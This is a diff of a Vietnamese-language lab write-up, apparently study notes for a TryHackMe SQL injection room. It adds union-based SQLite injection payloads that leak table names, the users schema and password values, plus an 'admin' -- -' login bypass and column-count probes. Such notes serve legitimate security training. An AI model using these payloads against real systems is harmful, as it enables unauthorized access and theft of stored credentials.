

Before and after one commit to wan-hyhty/Web-training, a Markdown page: tryhackme_sql.md, the part around the change. Rendered like a GitHub page; pictures changed too: bin/image-18.png (added), bin/image-19.png (added); blank space fills up the shorter version.

```diff
--- a/tryhackme_sql.md
+++ b/tryhackme_sql.md
@@ -55,3 +55,15 @@ admin' AND length((SELECT password from users where username='admin'))==37-- -
 
 ![Alt text](bin/image-17.png)
 - Để leak tên table `' union select 1, group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -`
+- Leak column `' union select 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' -- -`
+- Leak password `' union select 1, group_concat(id,password) from users -- -`
+
+#
+- Lỗi tương tự các bài ở trên
+![Alt text](bin/image-18.png)
+- username: `admin' -- -`
+
+#
+- Kiểm tra cột `') union select 1,2,3,4 --`
+![Alt text](bin/image-19.png)
+- Kiểm tra table `') union select 1,2,3,group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --`
```
